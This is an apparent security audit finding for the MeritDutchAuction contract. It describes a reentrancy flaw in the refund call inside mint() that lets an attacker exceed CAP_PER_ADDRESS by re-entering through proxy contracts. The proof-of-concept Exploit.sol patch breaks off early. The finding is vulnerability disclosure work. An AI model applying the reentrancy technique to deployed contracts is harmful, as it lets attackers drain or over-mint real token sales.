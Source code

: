 pep7siup

medium

# CAP_PER_ADDRESS constraint in MeritDutchAuction contract can be by-passed

## Summary

The MeritDutchAuction contract has a Reentrancy vulnerability where the CAP_PER_ADDRESS constraint can be bypassed, allowing a malicious participant to mint an excessive number of MeritNFTs.

## Vulnerability Detail

```solidity
function mint(uint256 amount) external payable {
        ...
        if(msg.value > totalPaid) {
            // If too much ETH was sent, refund the difference
            (bool success, ) = payable(msg.sender).call{value: msg.value - totalPaid}(bytes(""));
            require(success, "Refund failed");
        }
	...
}
```
The mint() function includes a check to reimburse any extra ETH sent by the caller. However, due to the absence of a ReentrancyGuard modifier, an attacker can exploit this vulnerability by executing the mint() function multiple times within a single transaction using multiple proxy contracts. This allows the attacker to repeatedly activate the reimbursement mechanism by sending an msg.value larger than the pre-determined totalPaid value. Consequently, the refund call triggers the fallback() function in the Exploit contract (as demonstrated in the Proof of Concept below), enabling the attacker to re-enter the mint() function with a new address. By artificially generating multiple addresses and invoking the mint() function, the attacker can bypass the intended limitations and mint a greater number of NFTs than the CAP_PER_ADDRESS allows.

## POC

### exploit-contract.patch

```patch
diff --git a/dutch-nft/test/Exploit.sol b/dutch-nft/test/Exploit.sol
new file mode 100644
index 0000000..21b1602
--- /dev/null
+++ b/dutch-nft/test/Exploit.sol
@@ -0,0 +1,60 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity ^0.8.13;
+import "@openzeppelin/contracts/token/ERC721/extensions/IERC721Enumerable.sol";
+import "../src/MeritDutchAuction.sol";
+
+contract Exploit {
+    address immutable meritNFT;
+    address immutable auction;
+    uint256 minted;
+    address receiver;
+
+    constructor(address _meritNFT, address _auction) {
+        meritNFT = _meritNFT;
+        auction = _auction;
+    }
+
+    function execute(uint256 _amount) external payable {
```